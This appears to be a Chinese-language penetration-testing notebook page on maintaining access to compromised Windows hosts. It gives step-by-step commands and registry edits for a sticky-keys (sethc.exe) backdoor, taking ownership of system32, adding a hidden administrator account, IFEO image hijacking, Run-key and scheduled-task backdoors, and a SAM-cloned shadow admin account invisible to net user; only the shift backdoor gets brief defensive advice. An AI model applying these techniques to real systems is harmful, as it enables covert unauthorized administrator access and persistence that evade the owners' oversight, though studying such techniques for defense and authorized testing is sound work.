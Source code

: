 ```yaml
---
title: windows权限维持
index: true
isOriginal : true
date: 2023-09-20
order: 1
category:
  - 渗透测试
tag:
  - 渗透测试
  - windows权限维持
---
```


php 不死马权限维持、映像劫持技术、策 略组脚本维持、shift 后门、建立影子账 号、power shell 配置文件后门、Monitor 权限维持、利用安全描述符隐藏服务后门 进行权限维持、iis 后门、window 隐藏技 术、驱动级文件隐藏

## shift后门(shift backdoor)

绕过安全控制措施获取对程序或系统访问权限的方法。后门是一个留在目标主机上的软件，它可以使攻击者随时与目标主机进行连接 大多数情况下，后门是一个运行在目标主机上的<span data-type="text" style="color: var(--b3-font-color8);">隐藏进程</span>，可能允许一个<span data-type="text" style="color: var(--b3-font-color8);">普通的、未授权</span>的用户控制计算机 所以攻击者经常使用后门来控制服务器。

比较老的方式 在winodws中有一些辅助功能，能在用户未登录系统之前就通过组合键来启动 Windows的粘滞键 在Windows系统按5下shift后，Windows就运行了System32下的sethc.exe,启动粘滞键粘滞键的位置:C:\windows\system32\sethc.exe

### shift后门原理

把 cmd.exe 这个程序更名为 sethc.exe，并且把原来的sethc.exe替换掉 之后在登录界面连续按下5次shift键后，系统会以system权限运行cmd.exe 那么此时的 cmd.exe 就具有了管理权限，之后只要利用cmd增加一个管理员用户就可以登录进去，实现隐藏后门

### shift后门制作

用 cmd.exe 替换 windows\system32 目录下的粘滞键可执行文件sethc.exe

```python
cd c:\windows\system32 
move sethc.exe sethc.exe.bak 
copy cmd.exe sethc.exe
```

​![image](assets/image-20241031114913-ln9981t.png)​

拒绝访问将将权限目录下的所有文件及文件夹、子文件夹下的所有者更改为管理员组(administrators)

```python
takeown /f c:\windows\system32\*.*   /a /r /d y
cacls  c:\windows\system32\*.*  /T /E /G administrators:F
```

重新替换

​![image](assets/image-20241031125044-mk58tsj.png)​

锁定界面5次shift后

​![image](assets/image-20241031125438-uajkhx6.png)​

将其添加用户到管理员用户组

```python
net user xiao 123456 /add && net localgroup administrators xiao /add
```

​![image](assets/image-20241031130010-fu2u7j4.png)​

​![image](assets/image-20241031130116-2bl7ht4.png)​

### shift后门防御

* 在远程登录服务器时，连续按5次 shift 键，判断服务器是否被入侵
* 禁用该 sethc.exe 功能 或者在“控制面板”中关闭“连续按5次shift键时启用粘滞键选项
* 使用权限约束 sethc.exe，使任何人都不能访问它

## 映像劫持 IFEO(lmage File Execution Options)

### 映像劫持原理

在高版本的windows版本中<span data-type="text" style="color: var(--b3-font-color8);">替换的文件受到了系统的保护</span>，所以需要进行"映像劫持“ 可以理解为当打开a.exe程序实际打开的却是b.exe程序，那么a程序就是被b程序劫持了。是为一些在默认系统环境中运行时可能引发错误的 程序执行体提供特殊的环境设定。由于这个项主要是用来调试程序用的，对一般用户意义不大，默认是只有管理员和 local system有权读写修改.

### 制作映像劫持

1. 粘滞键的启动程序在C盘的Windows/system32目录下为sethc.exe
2. regdit
3. HKEY_LOCAL_MACHINE\ SOFTWARE \ Microsoft \ Windows NT \ CurrentVersion \ Image File ExecutionOption  新建项 sethc.exe

    ​![image](assets/image-20241031130555-obol89r.png)​
4. 在新建的项中添加debugger键，键值设置为恶意程序的路径

    ​![image](assets/image-20241031105122-g6bukei.png)​
5. 这里用cmd路径代替。cmd路径：C:\Windows\system32\cmd.exe

    ​![image](assets/image-20241031105226-df8lter.png)​
6. 锁定访问

    ​![image](assets/image-20241031104614-0re4z0p.png)​

​​

## 启动项、计划任务

### 注册表自启动后门

通过修改注册表实现自动启动需要运行程序

最常见的在指定键值添加一个新的键值类型为 REG SZ,数据项中添写需要运行程序的路径即可以启动

1. 打开注册表路径：HKEY LOCAL MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run
2. 添加一个键值类型为REG SZ
3. 在数据中填写需要运行程序的路径

    ![image](assets/image-20241031133425-6ajjv4j.png)​
4. 开机自动弹出

    ​![image](assets/image-20241031133804-c4525mo.png)​

### 计划任务后门

计划任务在 Windows7 及之前版本的操作系统中使用 <span data-type="text" style="color: var(--b3-font-color8);">at </span>命令调用，从 Windows8 等高版本的操作系统中使 用 <span data-type="text" style="color: var(--b3-font-color8);">schtasks </span>命令调用

at命令是只会打开一个后台进程，而schtasks命令是将定时的任务在前台执行

#### at命令的参数

```python
AT [\\computername] time [/INTERACTIVE] [ /EVERY:date[...]/NEXT:date....]] "command'
```

#### schtasks命令的参数

```python
schtasks /create /tn TaskName /tr TaskRun /sc schedule [/mo modifier] [/d day] [/m monthl,month.] /i ldieTime] [/st StartTime] [/sd StartDate] [/ed EndDate] [/s computer [/u [domain\juser /p password]] [/ru {[Domain\]User "System"} [/rp Password]] /?
```

#### 计划任务后门制作

计划任务后门分为管理员权限和普通权限两种，管理员权限的后门可以设置更多的计划任务，例如重启后运行等

创建计划后门的基本命令

```python
schtasks /create /tn "任务名称" /tr cmd.exe /sc minute /mo 1        #该命令表示每分钟执行一次cmd.exe
schtasks /query /tn "任务名称"                                  #查看某计划任务:将“任务名称”替换为您要查看的任务的实际名称。
schtasks /query                                             #查看所有计划任务：然后按Enter键。
```

​![image](assets/image-20241031132315-qgu39gy.png)​

## 影子账户

在注册表中打开 HKEY LOCAL MACHINE/SAM/SAM/Domains/Account/Users/选项，点击Names菜单 注意:如果进入SAM后无法再看到里面的子选项，需要给予administrators完全控制权限，并重新进入注册表

1. 创建隐藏账户

    ​![image](assets/image-20241031111053-w6vxq3o.png)​
2. 打开注册表  给权限 <span data-type="text" style="color: var(--b3-font-color8);"> 给完权限查询打开</span>

    ```python
    HEKY_LOCAL_MACHINE\SAM\SAM\Domains\Account\User在SAM\SAM
    ```

    ​![image](assets/image-20241031111540-1c6p4lm.png)​
3. “Users”里包含的就是该帐户的权限的键值

    ​![image](assets/image-20241031112050-p4cgd65.png)​
4. 把Administrator的F键值的内容替换掉hack的F键值（这样hack也有管理员权限了）

    ​![image](assets/image-20241031112405-0lbv7j8.png)​
5. 将隐藏用户的名字和权限注册表导出

    ​![image](assets/image-20241031112754-boogpfq.png)​
6. 删除账户

    ​![image](assets/image-20241031113022-o7ziukm.png)​
7. 双击两个文件添加

    ​![image](assets/image-20241031113215-15kc7vm.png)​
8. 影子用户创建完成，net user和计算机管理中都看不见zxk$用户，只有注册表中可以看见，且具有管理员权限

    ​![image](assets/image-20241031113426-ob1mpk3.png)​

‍

‍
